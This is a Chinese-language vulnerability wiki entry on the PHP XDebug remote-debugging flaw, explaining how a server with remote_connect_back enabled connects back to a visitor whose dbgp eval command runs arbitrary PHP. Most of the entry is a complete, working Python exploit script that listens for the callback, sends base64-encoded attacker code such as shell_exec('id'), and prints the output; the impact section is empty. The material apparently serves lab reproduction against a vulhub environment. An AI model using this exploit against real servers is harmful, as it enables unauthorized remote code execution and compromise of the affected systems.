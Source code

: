 Php XDebug 远程调试漏洞
=======================

一、漏洞简介
------------

XDebug是PHP的一个扩展，用于调试PHP代码。如果目标开启了远程调试模式，并设置`remote_connect_back = 1`：

    xdebug.remote_connect_back = 1
    xdebug.remote_enable = 1

这个配置下，我们访问`http://www.0-sec.org/index.php?XDEBUG_SESSION_START=phpstorm`，目标服务器的XDebug将会连接访问者的IP（或`X-Forwarded-For`头指定的地址）并通过dbgp协议与其通信，我们通过dbgp中提供的eval方法即可在目标服务器上执行任意PHP代码。

二、漏洞影响
------------

三、复现过程
------------

因为需要使用dbgp协议与目标服务器通信，所以无法用http协议复现漏洞。

我编写了一个漏洞复现脚本，指定目标web地址、待执行的php代码即可：

    # 要求用python3并安装requests库
    python3 exp.py -t http://www.0-sec.org:8080/index.php -c 'shell_exec('id');'
    #!/usr/bin/env python3
    import re
    import sys
    import time
    import requests
    import argparse
    import socket
    import base64
    import binascii
    from concurrent.futures import ThreadPoolExecutor


    pool = ThreadPoolExecutor(1)
    session = requests.session()
    session.headers = {
        'User-Agent': 'Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)'
    }

    def recv_xml(sock):
        blocks = []
        data = b''
        while True:
            try:
                data = data + sock.recv(1024)
            except socket.error as e:
                break
            if not data:
                break

            while data:
                eop = data.find(b'\x00')
                if eop < 0:
                    break
                blocks.append(data[:eop])
                data = data[eop+1:]

            if len(blocks) >= 4:
                break
        
        return blocks[3]


    def trigger(url):
        time.sleep(2)
        try:
            session.get(url + '?XDEBUG_SESSION_START=phpstorm', timeout=0.1)
        except:
            pass


    if __name__ == '__main__':
        parser = argparse.ArgumentParser(description='XDebug remote debug code execution.')
        parser.add_argument('-c', '--code', required=True, help='the code you want to execute.')
        parser.add_argument('-t', '--target', required=True, help='target url.')
        parser.add_argument('-l', '--listen', default=9000, type=int, help='local port')
        args = parser.parse_args()
        
        ip_port = ('0.0.0.0', args.listen)
        sk = socket.socket()
        sk.settimeout(10)
        sk.bind(ip_port)
        sk.listen(5)

        pool.submit(trigger, args.target)
        conn, addr = sk.accept()
        conn.sendall(b''.join([b'eval -i 1 -- ', base64.b64encode(args.code.encode()), b'\x00']))

        data = recv_xml(conn)
        print('[+] Recieve data: ' + data.decode())
        g = re.search(rb'<\!\[CDATA\[([a-z0-9=\./\+]+)\]\]>', data, re.I)
        if not g:
            print('[-] No result...')
            sys.exit(0)

        data = g.group(1)

        try:
            print('[+] Result: ' + base64.b64decode(data).decode())
        except binascii.Error:
            print('[-] May be not string result...')

![1
1.png](/Users/aresx/Documents/VulWiki/.resource/PhpXDebug远程调试漏洞/media/rId24.png)

**重要说明：因为该通信是一个反向连接的过程，exp.py启动后其实是会监听本地的9000端口（可通过-l参数指定）并等待XDebug前来连接，所以执行该脚本的服务器必须有外网IP（或者与目标服务器处于同一内网）。**

参考链接
--------

> https://vulhub.org/\#/environments/php/xdebug-rce/
